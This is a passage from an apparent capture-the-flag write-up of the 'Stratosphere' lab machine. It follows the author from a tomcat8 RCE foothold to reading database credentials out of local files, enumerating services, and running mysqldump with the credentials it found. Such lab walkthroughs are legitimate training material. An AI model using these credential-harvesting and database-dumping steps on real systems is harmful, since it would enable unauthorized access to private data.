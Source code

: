 ![Img](/assets/posts_details/Stratosphere/images/1check.png "Img")

Even though that meant I had RCE, I was only tomcat8 and couldn't read many things. For instance, I couldn't access the directory of the user of the system, called Richard.

Keeping that in mind, I decided to check the files and came across db_connect, which had some credentials (for a database, I guessed seeing the name). The two pairs are found in notes.txt, one corresponds to admin and the other one to ssn_admin. Nothing else came out.

Then, I was advised to enumerate running services and found there was a local MariaDB service running locally. I used:

```sh
ss -lntu
service mysqld status
```

And that was when I thought about the credentials I had found earlier. Maybe there was a way to see what was inside the database. However, there was a problem: the service was not accessible, I couldn't simply log in and execute commands, they had to come from the command line.

After investigating possible mysql commands, I came across the following ones (I tried with both users but only admin was valid):

```sh
mysqldump --user=admin --password=admin --all-databases
```

Result:

```sh
mysqldump: Got error: 1044: "Access denied for user 'admin'@'localhost' to database 'users'" when using LOCK TABLES
-- MySQL dump 10.16  Distrib 10.1.26-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database:
-- ------------------------------------------------------
-- Server version	10.1.26-MariaDB-0+deb9u1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
```